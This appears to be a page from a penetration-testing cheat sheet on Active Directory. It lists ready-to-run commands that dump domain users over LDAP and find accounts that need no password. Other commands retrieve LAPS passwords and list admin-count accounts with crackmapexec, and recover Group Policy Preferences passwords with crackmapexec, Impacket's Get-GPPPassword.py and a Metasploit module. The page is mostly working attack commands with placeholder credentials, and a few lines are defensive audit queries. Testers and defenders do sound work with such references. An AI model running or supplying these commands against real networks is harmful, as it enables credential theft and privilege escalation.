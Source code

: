 ### PASSWD_NOT_REQD
If PASSWD_NOTREQD user-Account-Control Attribute Value bit is set then No password is required.  

1) First collect the information from the domain controller:
```
python ldapdomaindump.py -u example.com\\john -p pass123 -d ';' 10.100.20.1
```

2) Once the dumping is done, get the list of users with the PASSWD_NOTREQD flag using the following command:
```
grep PASSWD_NOTREQD domain_users.grep | grep -v ACCOUNT_DISABLED | awk -F ';' '{print $3}'
```

Reset password of users who have PASSWD_NOTREQD flag set and have never set a password:
```
Get-ADUser -Filter "useraccountcontrol -band 32" -Properties PasswordLastSet | Where-Object { $_.PasswordLastSet -eq $null } | select SamAccountName,Name,distinguishedname | Out-GridView
```

### Machine Account Quota
Identify machine account quota domain attribute:
```
crackmapexec ldap 192.168.0.10 -u jdoe -H XXXXXX:XXXXXXX -M MAQ --kdcHost corp.company.local
```

```
Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota
```

### LAPS / LAPS bypass
Retrieving LAPS passwords using Crackmapexec
```
crackmapexec ldap 192.168.0.10 -u jdoe -H XXXXX:XXXXX -M laps --kdcHost corp.company.local
```

### Admin Count
```
crackmapexec ldap company.com -u 'jdoe' -p 'Pass1234' -d company.com --admin-count
```

### Checking GPP passwords
- https://pentestlab.blog/tag/gpp/
Using crackmapexec GPP module
```
crackmapexec smb 10.10.0.10 -u jdoe -p Pass1234 -d company.com -M gpp_password
```

Using Impackets Get-GPPPassword.py
```
python3 Get-GPPPassword.py company.com/jdoe:Pass1234@10.10.0.10
```

Using Metasploit module
```
use auxiliary/scanner/smb/smb_enum_gpp
msf auxiliary(smb_enum_gpp) > set rhosts 192.168.0.10
msf auxiliary(smb_enum_gpp) > set smbuser jdoe
msf auxiliary(smb_enum_gpp) > set smbpass Pass1234
msf auxiliary(smb_enum_gpp) > exploit
```
